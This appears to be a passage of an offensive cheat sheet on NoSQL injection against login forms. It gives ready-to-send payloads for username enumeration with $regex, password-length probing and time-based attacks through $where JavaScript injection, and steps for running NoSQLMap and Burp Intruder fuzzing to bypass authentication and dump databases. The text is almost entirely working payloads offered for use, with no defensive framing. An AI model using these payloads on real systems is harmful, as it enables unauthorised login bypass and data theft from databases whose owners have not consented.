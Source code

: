 
#### 🔍 Extract Usernames via Regex

This helps discover valid users:
```bash
username[$regex]=^admin&password[$ne]=anything
```

---

### 🧠 Extract Password Length (with `$where`)

If `$where` is supported (JS injection):
```bash
username=admin&password[$where]=this.password.length==6
```
Enumerate the length first, then extract char-by-char.

---

### 🔁 Time-Based Injection (Timing Attacks)

If errors don’t help, exploit time:
```bash
username=admin&password[$where]=sleep(5000)
```
Or for some frameworks:
```bash
username=admin&password[$where]=function() { sleep(5000); return true; }
```
If delay occurs, injection is successful.

---

### 🧰 Automated Tools

#### 🛠️ NoSQLMap
```bash
git clone https://github.com/codingo/NoSQLMap
cd NoSQLMap
python3 nosqlmap.py
```

Use for:
- Dumping DBs
- Enumerating users
- Authentication bypass
- JS injection exploitation

#### 🐍 Burp Suite + Intruder

1. Intercept login POST request.
2. Send to Intruder.
3. Fuzz with:
   - `[$ne]=1`
   - `[$regex]=^a`
   - `[$where]=...`
